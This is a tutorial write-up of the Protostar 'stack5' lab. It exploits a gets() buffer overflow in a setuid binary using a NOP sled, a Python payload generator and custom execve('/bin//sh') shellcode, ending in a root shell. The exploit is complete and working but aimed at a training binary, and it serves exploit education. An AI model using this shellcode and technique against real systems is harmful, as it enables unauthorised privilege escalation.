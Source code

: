 # For stack5 in protostar


>Stack5 is a standard buffer overflow, this time introducing shellcode.
>  
>This level is at /opt/protostar/bin/stack5
>  
>Hints
>  
> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.

Our goal is to get a shell as `root`. Before reading my diary on this challenge, if you are a beginner, I highly recommend you watch [this video by LiveOverflow](https://www.youtube.com/watch?v=HSlhY4Uy8SA).

We are given the following C program
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

The vulnerability in this program is starkingly obvious. `gets` reads everything we give it into the `buffer` with no regards to whether the buffer will overflow.

We will smash the stack and overwrite the return address to whereever we want to execute to. Hold on a minute. What exactly is there for us to return to that will give us a shell? Nothing. We have to create it our own in the stack. Fret not, `readelf -l stack5` reveals that the stack is executable: `  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`. That means we can create a shellcode there. We will overwrite the return address with the address of our shellcode in the stack.

This is the format of our shellcode:
`< shellcode > < padding > < addr of shellcode >`.

### Problem: Inconsistent addresses  (╯°□°）╯︵ ┻━┻

After loading up `stack5` in `gdb`, I found that the return address was stored at address `0xbffff6ac`. `gets` read input to address `0xbffff660`. We will be using `INT 0x3` as our "exploit" first, just to make sure that the program will return to our shellcode. If it does, we should expect `Program received signal SIGTRAP, Trace/breakpoint trap.`.

This is our first exploit code: `\xcc\xcc\xcc\xcc\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x60\xf6\xff\xbf`.

In GDB, we get the output as expected.
```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
```

However, in the command line, we get a segmentation fault! Why? (ง •̀_•́)ง
```
user@protostar:/opt/protostar/bin$ cat /home/user/input\ stack5 | ./stack5
Segmentation fault
```

Segmentation fault means some memory that is not supposed to be accessed is being accessed. The program is not executing as expected.

[According to LiveOverflow](https://www.youtube.com/watch?v=HSlhY4Uy8SA&t=381), one possible reason is that different environment variable lengths cause the stack address to be different. Since the stack address changes, both the addresses that `gets` reads to and that `main` returns to are different. That is why `INT 0x3` was never executed! Since something else instead of `INT 0x3` was in address `0xbffff600` in terminal 2, we got a segfault.

| GDB in terminal 1 | GDB in terminal 2|
|---|---|
|0xbffff600|0xbffff680|

Ok, one way we can solve this is to update our shellcode to return to `0xbffff680` in terminal 2. But how do we know for sure that when we run the program again, the address won't be different? We do not know what the exact address is.

### The solution: Nop Nop Nop ┬──┬◡ﾉ(° -°ﾉ)

>The technique sees common usage in software exploits, where it is used to direct program execution when a branch instruction target is not known precisely.
[source](https://en.wikipedia.org/wiki/NOP_slide)


Let me introduce our new best friend, the NOP sled. We do not know what the exact address that `gets` will read our shellcode into, but we know the range roughly. So we put several `\x90` instructions in the area preceeding the shellcode. That way even though the stack address may change, `main` would still return hopefully to one of those `\x90` instructions and slide down to our shellcode.

This is the format of our new shellcode:
` < padding > < addr to somewhere in the nop sled > < nop sled > < shellcode > `.

I do not want our nop sled and shellcode to be limited to 76 bytes, so I shift it to after the return address. That way, the nop sled can be very long if it has to be.

Following LiveOverflow's example, I decided to create a Python script to print my shellcode too, to make life easier for me.
```                                                       
PADDING_LENGTH = 76


padding = ""

for i in range(PADDING_LENGTH):
        padding += "\x90"

addr_of_shellcode="\x40\xfa\xff\xbf"

shellcode = ""
for i in range(1000):
        shellcode+="\x90"

shellcode += "\xcc\xcc\xcc\xcc"

print padding + addr_of_shellcode + shellcode
```

When we execute this, in `gdb` or in the command line, we get the `Program received signal SIGTRAP, Trace/breakpoint trap` output. I admit, it was not that simple. I had to change several times the length of the NOP sled and the return address to what I guess should point roughly in the middle of the NOP sled  before it worked. Receiving segfault error is normal before success. In fact, I got segfault so many times I gave up and spammed 1000 `\x90` instructions before I got the desired SIGTRAP error.

(Just a note though, a segfault *is still possible* as we could overflow the entire stack with our input of 1080 characters.

For example, `info proc mappings` shows `0xbffeb000 0xc0000000    0x15000          0           [stack]`, meaning that the stack is from address `0xbffeb00` to address `0xc0000000`. If `gets` reads into address say `0xbffffce0`, only a maximum of 0x320 (800) characters can be accomodated.)


Since the shellcode is working, I'll change it to spawn us a new shell. I decided to make my own shellcode instead of using existing ones, but both achieve the same goal - to call `execve('/bin//sh')`.
```
xor eax, eax
mov al, 0xb
push 0x00
push 0x68732f2f 
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
```

Instead of `\xcc\xcc\xcc\xcc`, we now use `shellcode += "\x31\xC0\xB0\x0B\x6A\x00\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x31\xC9\x31\xD2\xCD\x80"`.

Testing in GDB, we get:
```
(gdb) 
Executing new program: /bin/dash

Program exited normally.
```
It means we have successfully executed `/bin/sh` which is a link to `/bin/dash`.

Running it in command line, we get:
```
user@protostar:/opt/protostar/bin$ cat /home/user/input\ stack5 - | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Success. Wait a minute! We ran `stack5` as `user`! Why does simply spawning a shell give us root? 

>The real and effective UID and GID of the child process are equal to the real and effective UID and GID of the parent process. Therefore, when the child process calls exec those values are not modified.
[source](https://stackoverflow.com/questions/17785983/ruid-euid-after-exec)

Here's why. `-rwsr-xr-x 1 root root 22612 Nov 24  2011 stack5` shows that `stack5` is a SETUID program. That means the EUID of the process is `root` instead of `user`. As the quote above states and the output proves, the EUID of the shell process is *also* `root`. This is why exploit-exercises recommends solving Nebula challenges before coming to Protostar.

We have escalated our privileges and understood the concept behind it. ᕕ( ᐛ )ᕗ 

END


